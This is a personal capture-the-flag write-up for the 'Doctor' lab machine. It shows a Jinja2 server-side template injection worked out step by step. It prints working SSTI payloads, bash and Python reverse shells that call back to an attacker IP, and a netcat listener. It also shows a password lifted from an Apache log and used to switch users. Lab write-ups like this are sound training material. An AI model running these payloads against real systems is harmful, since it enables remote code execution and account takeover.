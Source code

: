 
Foun 3 ports 80,22,8089

by adding the following to `10.10.10.209 doctors.htb` we were able to find a new login page on doctors.htb

Went to doctors.htb and registered with an email with .htb emailid.

logged in with that email and were able to create posts


Directory fuzzing hasnt given us anything useful yet: how ever i can see an archive directory which gives a blank response but on viewing source we see an xml file


thomas got the revershell using putting the payload at the post and going to `/archive`, this doesnot work for me. On putting the following `{{44}}[[55]]
{{7*'7'}} would result in 7777777
{{config.items()}}` from payload all the things we get a response on the same `/archive` as mentioned for `7777777`

Like an idiot used the config payload from payload all the things SSTI `https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2---basic-injection`
`{{ config['RUNCMD']('/bin/bash -c "/bin/bash -i >& /dev/tcp/x.x.x.x/8000 0>&1"',shell=True) }}` and got an http 500 error, will try the direct bash one and see if it works.

Trying the following payload to see if it , works, its mentioned specifically for reverse shell
`{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"ip\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/cat\", \"flag.txt\"]);'").read().zfill(417)}}{%endif%}{% endfor %}`

but will need some modification after which it is
`{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.138\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\", \"-i\"]);'").read().zfill(417)}}{%endif%}{% endfor %}`

offcourse we need to start our netcat via `nc -lvp 4444` and once we inject our payload at the  title of the new message simply go to the archive url and reload the template, once we do that we get a reverse shell


PLease not that the pay load has 2 linux commands, first one is to establish the connection and the next one is for the payload that is sent back, ideally we can also use thomas command and send commands directly via popen , will investigate further on tha.

Once got the initial shell, I tried making it better by `import pty;pty.spawn("/bin/bash");` but it didnt work so I tried using find command to see archives, backups, and configs, i found this '/var/log/apache2/backup' using the find command. then i grepped the following by grepping this file, `10.10.14.4 - - [05/Sep/2020:11:17:34 +2000] "POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password"` 

So we have password for something , on our inital shells we found, `shaun and web` in the home directory, so i tried using ssh to shaun with the password `Guitar123` and it didnt work .
so i tried getting a better shell from the initial one, and as i noticed python didnt work i tried python3 via `python3 -c 'import pty;pty.spawn("/bin/bash");'`, then i did an `su shaun` with the password `Guitar123` and bam i was in.
then i did a cat /home/shaun/user.txt and got the first flag.
